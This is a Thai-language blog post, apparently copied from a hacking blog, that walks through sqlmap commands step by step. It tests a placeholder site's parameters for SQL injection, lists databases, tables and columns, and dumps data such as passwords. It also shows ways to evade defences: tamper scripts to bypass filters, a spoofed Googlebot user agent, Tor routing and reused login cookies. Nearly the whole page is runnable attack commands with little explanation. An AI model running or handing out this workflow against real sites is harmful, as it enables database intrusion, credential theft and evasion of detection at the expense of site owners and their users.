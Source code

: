 
SQL Map
http://kiss-hack.blogspot.com/2013/10/how-to-sqlmap.html

วิธีใช้ SQLmap แบบง่ายถึงปานกลางๆ

ตัวอย่าง วิธีใช้ sqlmap แบบง่ายๆ ...?
ซึ่งผมว่า sqlmap.py -h แล้วอ่านซัก 15 นาทีก็น่าจะเข้าใจวิธีใช้แล้วล่ะ
(ถ้าจะเอาขั้นสูงๆ มาอีก ก็ sqlmap.py --h แล้วอ่านอีก 30 นาที ก็จะใช้คู่ tor, proxy ได้แระ)
ซึ่งผมเองก็เพิ่งอ่านเมื่อกี้นี้เอง ..? ก็เลยเอามาเขียนคู่มือสรุปคร่าวๆ ให้ เผื่อใครขี้เกียจอ่าน ^^"

1) แสกนหา ช่องโหว่ SQL injection
# แบบธรรมดาๆ method GET
?
1
./sqlmap.py -u "http://www.stephack.com/index.php?bug=31337&test=hack_you"

# แบบธรรมดาๆ method POST
?
1
./sqlmap.py -u "http://www.stephack.com/index.php" --data="bug=31337&test=hack_you"

# แบบเจาะจง parameter พิเศษ? (ใช้ marker จุดที่จะ inject ด้วย *)
?
1
./sqlmap.py -u "http://www.stephack.com/index/bug/31337*/hack_you"

# แบบเจาะจง parameter พิเศษ? (ใช้ -p)
?
1
./sqlmap.py -u "http://www.stephack.com/index.php" --data="bug=31337&test=hack_you" -p "bug"

# แบบที่ต้อง login เข้าไปแฮก (ใช้ cookie)
?
1
./sqlmap.py -u "http://www.stephack.com/index.php" --data="bug=31337&test=hack_you" -p "bug" --cookie="cookie1=blabla1;cookie2=blabla2"

# แบบต้องทำ bypass filter (ใช้ script ช่วย)
?
1
./sqlmap.py -u "http://www.stephack.com/index.php" --data="bug=31337&test=hack_you" -p "bug" -b --tamper="tamper_script1_name.py,tamper_script2_name.py"

# แบบปลอม UserAgent
?
1
./sqlmap.py -u "http://www.stephack.com/index.php" --user-agent="Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# แบบใช้คู่ tor
?
1
./sqlmap.py -u "http://www.stephack.com/index.php" --tor


2) ดู database ที่ user กำลังเชื่อมต่ออยู่ (--current-db)
?
1
./sqlmap.py -u "http://www.stephack.com/index.php?bug=31337&test=hack_you" --current-db


3) ดู database ทั้งหมด ที่ user นั้นมีสิทธิ์ (--dbs)
?
1
./sqlmap.py -u "http://www.stephack.com/index.php?bug=31337&test=hack_you" --dbs


4) ดู tables ทั้งหมด ใน <DATABASE> ที่กำหนด
?
1
./sqlmap.py -u "http://www.stephack.com/index.php?bug=31337&test=hack_you" -D DATABASE --tables


5) ดู columns ทั้งหมด ใน <TABLE> ที่กำหนด
?
1
./sqlmap.py -u "http://www.stephack.com/index.php?bug=31337&test=hack_you" -D DATABASE -T TABLE --columns


6) dump <DATA> ที่อยู่ใน <COLUMN> จาก <DATABASE>
?
1
./sqlmap.py -u "http://www.stephack.com/index.php?bug=31337&test=hack_you" -D DATABASE -T TABLE -C DATA1,DATA2,DATA3 --dump

===================
* <DATABASE> เช่น mysql projectX wordpress
** <TABLE> เช่น members topic
*** <COLUMN> เช่น id name password
*** <DATA_N> เช่น "id,name,password"
**** รู้สึก -(- หนึ่งอัน) กับ -- (- สองอัน) จะมองไม่ออกเลยแฮะ _ _''
====================
